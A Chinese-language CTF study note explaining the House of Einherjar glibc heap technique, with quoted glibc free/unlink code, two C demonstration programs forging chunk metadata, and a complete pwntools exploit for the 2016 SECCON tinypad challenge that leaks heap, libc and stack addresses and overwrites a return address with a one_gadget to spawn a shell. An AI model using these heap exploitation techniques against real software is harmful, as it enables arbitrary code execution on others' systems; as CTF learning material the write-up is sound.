


## House of Einherjar


#### 原理

free中后向合并的操作（unlink），如果我们可以同时控制一个 chunk prev\_size 与 PREV\_INUSE 字段，那么我们就可以将新的 chunk 指向几乎任何位置。


free时合并的操作

```c
static void
_int_free (mstate av, mchunkptr p, int have_lock)
{
	...
	    /* consolidate backward */
        if (!prev_inuse(p)) {
            prevsize = prev_size(p);
            size += prevsize;
            p = chunk_at_offset(p, -((long) prevsize));
            unlink(av, p, bck, fwd);
        }
	...
}
```

unlink

```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      \
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
    FD = P->fd;								      \
    BK = P->bk;								      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;							      \
        if (!in_smallbin_range (P->size)				      \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      \
	    if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
		|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
	      malloc_printerr (check_action,				      \
			       "corrupted double-linked list (not small)",    \
			       P, AV);					      \
            if (FD->fd_nextsize == NULL) {				      \
                if (P->fd_nextsize == P)				      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;		      \
                else {							      \
                    FD->fd_nextsize = P->fd_nextsize;			      \
                    FD->bk_nextsize = P->bk_nextsize;			      \
                    P->fd_nextsize->bk_nextsize = FD;			      \
                    P->bk_nextsize->fd_nextsize = FD;			      \
                  }							      \
              } else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
          }								      \
      }									      \
}

```


#### 演示程序1

合并放入unsorted bin

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(){
	long long int *s0 = (long long int *)malloc(0x200);
	long long int *s1 = (long long int *)malloc(0x18);
	long long int *s2 = (long long int *)malloc(0xf0);
	long long int *s3 = (long long int *)malloc(0x20);
	s0[0] = 0;
	s0[1] = 0x81;
	s0[2] = (long long int)s0;
	s0[3] = (long long int)s0;
	s0[16] = 0x80;
	s1[2] = 0x220;
	s2[-1] = 0x100;
	free(s2);
	return 0;
}
```


free(s2)前各个堆上的伪造情况


结果s0（部分）,s1,s2合并放入unsorted bin中




#### 演示程序2

合并融入top chunk（top chunk地址变成栈上地址，堆上也依然ok）

这里s1大小属于large bin范围也可以

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(){
	long long int stack_chunk[6];
	long long int *s0 = (long long int *)malloc(0x100);
	long long int *s1 = (long long int *)malloc(0x200);
	s1[-2] = (long long int)&s1[-2]-(long long int)&stack_chunk;
	s1[-1] = 0x210;	
	stack_chunk[0] = 0;
	stack_chunk[1] = s1[-2];
	stack_chunk[2] = (long long int)&stack_chunk;
	stack_chunk[3] = (long long int)&stack_chunk;
	stack_chunk[4] = (long long int)&stack_chunk;
	stack_chunk[5] = (long long int)&stack_chunk;
	free(s1);
	malloc(0x100);
	return 0;
}
```

这里对于stack_chunk->fd_nextsize和stack_chunk->bk_nextsize也进行了伪造，因为unlink了一个大堆块，不在small bin的大小之内了，有额外检查。

```c
#define unlink(AV, P, BK, FD) {                                            \
               ···························						      \
        if (!in_smallbin_range (P->size)				      \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      \
	    if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
		|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
	      malloc_printerr (check_action,				      \
			       "corrupted double-linked list (not small)",    \
			       P, AV);					      \
               ··························							      \
}
```

free前



free后


例题

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/house-of-einherjar/2016_seccon_tinypad

只能申请4个堆块，但是有uaf信息泄露很方便。

这里仅记录构造过程中的问题把，大致思路就是利用house of einherjar把unsorted bin放到程序数据段上去，最后通过直接修改tinypad的几个指针来任意写。


问题主要就是把数据段地址放到unsorted bin上后malloc能够成功，这里要有两个地方的伪造

1.假如unsorted bin里放的还是堆附近地址的块，那确实很方便直接申请也不会出事，但是由于现在数据段和堆段地址相差比较大，但是malloc的时候有检查。这里假如size过大>av->system_mem（0x21000）就会crash，所以这里伪造成比较小的一个值。

### Unsorted bin

| 检查目标                | 检查条件                                                     | 报错信息                    |
| ----------------------- | ------------------------------------------------------------ | --------------------------- |
| unsorted bin chunk 大小 | chunksize_nomask (victim) <= 2 * SIZE_SZ \|\| chunksize_nomask (victim) > av->system_mem | malloc(): memory corruption |

```c
          if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
              || __builtin_expect (victim->size > av->system_mem, 0))
            malloc_printerr (check_action, "malloc(): memory corruption",
                             chunk2mem (victim), av);
```


2.unlink的时候的对大小的检查，由于上面我们修改了size，所以对下一个chunk的prev_size也需要伪造。

## unlink

| 检查目标              | 检查条件                                                     | 报错信息                                 |
| --------------------- | ------------------------------------------------------------ | ---------------------------------------- |
| size **vs** prev_size | chunksize(P) != prev_size (next_chunk(P))                    | corrupted size vs. prev_size             |


最终选择的伪造(注意这里连向unsorted bin的双链也不能断)


最终exp

```python
from pwn import*
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1)
p = process('./tinypad')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def pr(a,addr):
	log.success(a+'===>'+hex(addr))

def add(size, content='a'):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)


def edit(idx, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('Y')


def delete(idx):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))

add(0x100)
add(0x100)
add(0x100)
add(0x100)
delete(3)
delete(1)
p.recvuntil('INDEX: 1')
p.recvuntil('CONTENT: ')
heapbase = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00')) -0x220
p.recvuntil('INDEX: 3')
p.recvuntil('CONTENT: ')
libcbase = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00')) -  (0x7fe1dd553b78-0x7fe1dd18f000)
environ = libc.sym['environ']+libcbase
pr('heapbase',heapbase)
pr('libcbase',libcbase)

add(0x100)
add(0x100)
delete(4)
delete(1)
delete(2)
delete(3)
#================================empty now =================================

add(0x100,'a'*0x100)
edit(1,'a'*0x30+p64(0)+p64(0x41)+p64(0x602070)*2+'\x00'*0x20+p64(0x40))
delete(1)


add(0x10) #1
add(0xf0) #2
add(0x10) #3
add(0x100,'a'*0x100) #4
delete(1)
add(0x18,'a'*0x10+p64(heapbase+0x20-0x602070)) #1
delete(2)

edit(4,'a'*0x30+p64(0)+p64(0x101)+p64(libcbase+(0x00007f36556adb78-0x00007f36552e9000))*2)
add(0xf0,'a'*0xc0+p64(0x100)+p64(environ)+p64(0x100)+p64(0x602148))
p.recvuntil('INDEX: 1')
p.recvuntil('CONTENT: ')
stackleak= u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
target = stackleak + (0x7ffefd8d96e8-0x7ffefd8d97d8)
pr('target',target)
pr('stackleak',stackleak)
edit(2,p64(target))
edit(1,p64(libcbase+0x45226))
p.recvuntil('(CMD)>>> ')
p.sendline('Q')
#gdb.attach(p)
p.interactive()
```

